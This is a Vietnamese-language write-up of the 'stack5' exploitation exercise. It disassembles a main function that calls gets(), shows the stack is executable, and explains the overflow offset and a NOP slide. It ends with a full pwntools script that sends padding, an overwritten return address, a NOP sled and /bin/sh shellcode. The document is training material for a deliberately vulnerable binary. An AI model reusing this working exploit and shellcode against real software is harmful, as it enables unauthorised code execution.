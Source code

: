 # stack5

## Description

Chạy thử chương trình, nhập input vào thì ko có gì diễn ra. Mình đá thử qua hàm main thì thấy nó khá là ngắn.

```ASM (intel syntax)
   0x080483c4 <+0>:     push   ebp
   0x080483c5 <+1>:     mov    ebp,esp
   0x080483c7 <+3>:     and    esp,0xfffffff0
   0x080483ca <+6>:     sub    esp,0x50
   0x080483cd <+9>:     lea    eax,[esp+0x10]
   0x080483d1 <+13>:    mov    DWORD PTR [esp],eax
   0x080483d4 <+16>:    call   0x80482e8 <gets@plt>
   0x080483d9 <+21>:    leave  
   0x080483da <+22>:    ret
```

mình đoán bài này sẽ phải chèn shellcode vào chương trình. Dùng vmmap check lại xem phần vùng mình ghi dữ liêu có quyền chạy code hay không.

![vmmap](vmmap.png)

ta thấy phân vùng stack có quyền x. Dùng shellcraft để tạo shellcode. Tiếp theo là tìm padding, dùng cyclic và pwndbg để tìm ra giống những bài trước. Padding 76 bytes. Bây giờ ta cần phải control eip. Khi chúng ta kiểm soát eip, chúng ta cần hướng nó đến ngăn xếp nơi chúng ta có thể đặt mã của riêng mình. Đỉnh của ngăn xếp được trỏ tới bởi SP (hoặc con trỏ ngăn xếp) được gọi là esp trong các máy 32-bit. Đối với mình, esp được đặt tại `0xffffceec`(ASLR off) và bạn có thể kiểm tra vị trí của esp trong gdb. Nếu ta muốn jump đến shellcode của mình, ta cần jump đến giữa ngăn xếp (thay vì trên cùng nơi SP trỏ đến), vì vậy ta thường thêm một phần bù vào vị trí esp trong phần mã khai thác . Mình sử dụng offset là `20*16`. Có một lệnh trong hợp ngữ được là NOP, là 0x90 trong hệ thập lục phân, và NOP là bộ chứa khoảng trắng chuyển eip đến không gian tiếp theo trong bộ nhớ. Nếu chúng ta tạo một "bãi đáp" NOP khổng lồ và hướng eip về phía giữa ngăn xếp, tỷ lệ eip sẽ hạ cánh trên NOP của chúng ta và các NOP sẽ chuyển eip xuống để cuối vào shellcode của chúng ta. Đây thường được gọi là NOP slide, bởi vì eip sẽ hạ cánh trong các NOP và trượt xuống shellcode. 




## Solution

```py
from pwn import *

elf = context.binary = ELF("stack5")

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)


io = start()

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffceec+21*16)

nop_slide = "\x90"*400

shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

io.sendline(payload)

io.interactive()
```

![run](run.png)
